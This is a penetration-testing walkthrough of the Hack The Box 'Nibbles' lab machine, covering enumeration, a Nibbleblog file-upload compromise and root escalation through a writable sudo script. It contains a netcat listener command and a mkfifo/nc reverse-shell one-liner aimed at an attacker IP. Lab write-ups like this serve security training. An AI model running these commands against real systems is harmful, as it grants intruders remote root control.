




# 🧠 Nibbles — Penetration Test Walkthrough

---

## 📌 Overview

- **Target:** Linux Machine (Hack The Box)
- **Objective:** Gain root access
- **Methodology:** Enumeration → Exploitation → Privilege Escalation

---

## 🔍 1. Nmap Scan

```bash
nmap -p- -sVC -T4 <target-ip>
```

### 🧠 Why?
Full port scan ensures no services are missed. Web services are often the primary attack vector.

### 📸 Evidence


**Findings:**
- 22 → SSH
- 80 → HTTP

---

## 🌐 2. Web Enumeration

Browsing the web server revealed a hidden directory:

```
/nibbleblog/
```

### 🧠 Why?
Hidden paths often expose admin panels or CMS applications.

Identified CMS:
👉 **Nibbleblog**

### 📸 Evidence


---

## 💥 3. Exploitation (File Upload → RCE)

Nibbleblog is vulnerable to file upload abuse via plugins.

### 🧠 Why?
File upload functionality is a common entry point for remote code execution.

Steps:
- Accessed admin panel
- Uploaded PHP reverse shell
- Triggered execution

Listener:

```bash
nc -lvnp 8443
```

---

## 🐚 4. Initial Shell

Received reverse shell:

### 📸 Evidence


```bash
id
```

👉 Confirmed low-privileged user

---

## 🔎 5. Enumeration

After gaining shell, performed privilege checks:

```bash
sudo -l
```

### 🧠 Why?
Misconfigured sudo permissions are one of the most common privesc vectors.

### 📸 Evidence


**Key Finding:**
- User can execute `monitor.sh` as root

Also discovered:
- Writable directory:
  ```
  /home/nibbler/personal/stuff/
  ```

---

## 🚀 6. Privilege Escalation

### 🧠 Key Insight

- Script runs as root
- Script is writable

👉 This allows command injection into a root-executed script

---

### 🔧 Payload Injection

Injected reverse shell into script:

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <ATTACKER-IP> 8443 > /tmp/f
```

### 📸 Evidence


---

### ▶️ Execution

```bash
sudo /home/nibbler/personal/stuff/monitor.sh
```

---

## 👑 7. Root Access

Listener received connection:

### 📸 Evidence


```bash
id
uid=0(root)
```

👉 Successfully gained root access

---

## 🧠 Key Takeaways

- Always enumerate web directories thoroughly
- File upload vulnerabilities can lead directly to RCE
- `sudo -l` is critical after initial access
- Writable scripts executed as root = privilege escalation
- Enumeration is more important than exploitation

---

## 🔥 Attack Chain Summary

```
Web → Nibbleblog → File Upload → RCE → Shell →
sudo misconfig → Writable Script → Reverse Shell Injection → Root
```

---

## ⚠️ Notes

- Focus is on methodology, not tools
- Each step is based on observable behavior, not guessing
- Real-world misconfiguration exploitation (not CTF trick)

---
